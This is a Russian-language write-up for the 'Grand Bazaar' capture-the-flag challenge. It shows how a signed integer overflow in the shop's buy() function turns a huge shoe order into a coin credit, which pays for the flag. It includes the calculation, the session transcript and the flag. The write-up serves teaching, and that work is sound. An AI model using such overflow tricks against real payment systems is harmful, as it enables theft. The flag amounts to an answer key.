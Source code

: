 # Grand Bazaar writeup
Приложение предоставляет возможность покупать вещи за монеты. Флаг стоит 1337 монет, изначально их 100, заработка монет не предусмотрено. Давайте смотреть на функцию **buy()**

В ней есть различные проверки покупки, в случае успеха читается выбранный продукт из одноименного файла. Неординарным моментом является то, что все числа (**total** и **number**) - signed. Это наталкивает на мысль о переполнении **total**. Так как **total** - знаковое число, мы можем попытаться добиться того, чтобы **total** стал отрицательным, и тогда после покупки нам прибавятся деньги. 4-байтовые signed-числа устоены так:

| 0 - 0x7fffffff      | 0x80000000 - 0xffffffff                           |
|---------------------|-------------------------------------------------|
| Положительные числа | Отрицательные числа (где 0xffffffff - это "-1") |

Чтобы сделать total отрицательным, нам нужно запросить такое количество товаров, чтобы произведение этого кол-ва на его цену было больше 0x7fffffff. Для наглядности будем использовать товар "ботинки" в качестве способа пополнения денег. Вычислим необходимое кол-во:

```python
>>> 0x90000000 // 10
241591910
```

И теперь закажем 241591910 ботинок:

```bash
⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 100
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
1
How much do you wish to buy???
241591910
               __
             .'--'\
         _.-'_  __/
        (_.'--'\|_|
      _.-`   __/
     (_____.'|_|

⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 1879048296
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
4
How much do you wish to buy???
1
     ___
     \_/
      |._
      |'."-.._.-""--.-"-.__.-"-.__.-"-.__.-'/
      |  \                                 (
      |   |                                 )
      |   | li2CTF{7H4nk5__f0R_pUrch453!!} /
      |  /                                /
      |.'                                (
      |.-"-..__.-""-.__.-"-.-_.-"-.-_.-"-.)
      |
      |
      |
      |
      |
      |

⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 1879046959
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
```

P.S.

- ASCII-арт обуви взят из https://www.asciiart.eu/clothing-and-accessories/footwear
- ASCII-арт книги взят из https://textart.io/art/tag/book/1
- ASCII-арт лампы взят из https://ascii.co.uk/art/lamp
- ASCII-арт флаг взят из https://textart.io/art/tag/flag/1

Флаг: `li2CTF{7H4nk5__f0R_pUrch453!!}`
